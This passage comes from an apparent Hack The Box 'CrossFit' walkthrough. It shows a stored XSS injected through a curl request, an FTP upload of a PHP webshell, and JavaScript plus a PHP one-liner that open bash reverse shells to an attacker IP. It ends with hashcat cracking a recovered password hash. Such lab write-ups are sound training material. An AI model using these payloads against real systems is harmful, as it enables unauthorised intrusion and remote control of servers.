 Trigger XSS.
```bash
curl -s http://gym-club.crossfit.htb/blog-single.php --data 'name=bido&email=bido@crossfit.htb&phone=9999999999&message=%3Cscript+src%3D%22http%3A%2F%2F10.10.14.2%22%3E%3C%2Fscript%3E&submit=submit' -H 'User-Agent: <script src="http://10.10.14.2/ftp-create-account.js"></script>' | grep -i xss
```

<br>

#### FTP
Now we can login into FTP with this user, but we need to use lftp and disable SSL check.
```
lftp ftp.crossfit.htb -u bido
set ssl:verify-certificate false
```

It seems that we are inside /var/www/ since the directories are:
```
development-test
ftp
gym-club
html
```

Upload a webshell to development-test and execute it via XSS.
```ftp
put webshell.php
```

```js
var req = new XMLHttpRequest();
req.open("GET", "http://development-test.crossfit.htb/webshell.php?command=bash+-c+'bash+-i+>%26+/dev/tcp/10.10.14.2/443+0>%261'", false);
req.send()
```

```
curl -s http://gym-club.crossfit.htb/blog-single.php --data 'name=bido&email=bido@crossfit.htb&phone=9999999999&message=%3Cscript+src%3D%22http%3A%2F%2F10.10.14.2%22%3E%3C%2Fscript%3E&submit=submit' -H 'User-Agent: <script src="http://10.10.14.2/webshell.js"></script>' | grep -i xss

# You can trigger with a simple js file:
document.location = 'http://development-test.crossfit.htb/webshell.php';

# And create webshell.php with reverse shell instead of webshell
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.2/9001 0>&1'"); ?>
```

<br>

#### hank

We enumerate that the machines uses ansible in /etc/ansible and find a hash inside one the only playbook that exists: `/etc/ansible/playbooks/adduser_hank.yml`.

Cracking this hash.
```
hashcat -m 1800 hank.hash /usr/share/wordlists/rockyou.txt

$6$e20D6nUeTJOIyRio$A777Jj8tk5.sfACzLuIqqfZOCsKTVCfNEQIbH79nZf09mM.Iov/pzDCE8xNZZCM9MuHKMcjqNUd8QUEzC1CZG/:powerpuffgirls
```
